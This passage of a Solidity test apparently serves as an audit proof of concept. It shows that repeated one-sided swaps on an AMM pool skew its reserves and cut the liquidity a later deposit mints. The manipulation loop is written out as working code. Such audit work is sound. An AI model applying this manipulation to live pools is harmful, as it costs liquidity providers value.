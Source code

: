 ```solidity
        pool.mint(address(this));

        // We assume we'll deposit 1e18 from the option
        // We'll take spot of the other amount
        // And see how much liquidity we get
        uint256 snapshot = vm.snapshot();
        (uint256 underlyingReserve, uint256 paymentReserve, ) = pool.getReserves();

        // Amt * payRes / underlyingRes
        uint256 paymentAmountToAddLiquidity = (1e18 * paymentReserve) / underlyingReserve;
        console2.log("paymentAmountToAddLiquidity Initial", paymentAmountToAddLiquidity);
        
        tokenA.transfer(address(pool), 1e18);
        tokenB.transfer(address(pool), paymentAmountToAddLiquidity);
        uint256 balanceB4 = pool.balanceOf(address(this));
        pool.mint(address(this));
        uint256 poolMinted = pool.balanceOf(address(this)) - balanceB4; 
        console2.log("poolMinted Initial", poolMinted);
        vm.revertTo(snapshot);

        // swap
        uint256 counter = 1000;
        while(counter > 0) {
            // By swapping more of underlyingReserve, we make `paymentReserve` cheaper and we make them get less liquidity
            // this wastes their `_amount` which is limited

            // Swap 0
            tokenA.transfer(address(pool), 1e18);
            uint256 toSwapOut = pool.getAmountOut(1e18, address(tokenA));
            pool.swap(0, toSwapOut, address(this), hex"");

            --counter;
        }

        // Basically same as above, but with altered reserves
        (underlyingReserve, paymentReserve, ) = pool.getReserves();

        // Amt * payRes / underlyingRes
        paymentAmountToAddLiquidity = (1e18 * paymentReserve) / underlyingReserve;
        console2.log("paymentAmountToAddLiquidity After", paymentAmountToAddLiquidity);
        
        tokenA.transfer(address(pool), 1e18);
        tokenB.transfer(address(pool), paymentAmountToAddLiquidity);
        balanceB4 = pool.balanceOf(address(this));
        pool.mint(address(this));
        poolMinted = pool.balanceOf(address(this)) - balanceB4; 
        console2.log("poolMinted After", poolMinted);
    }
```
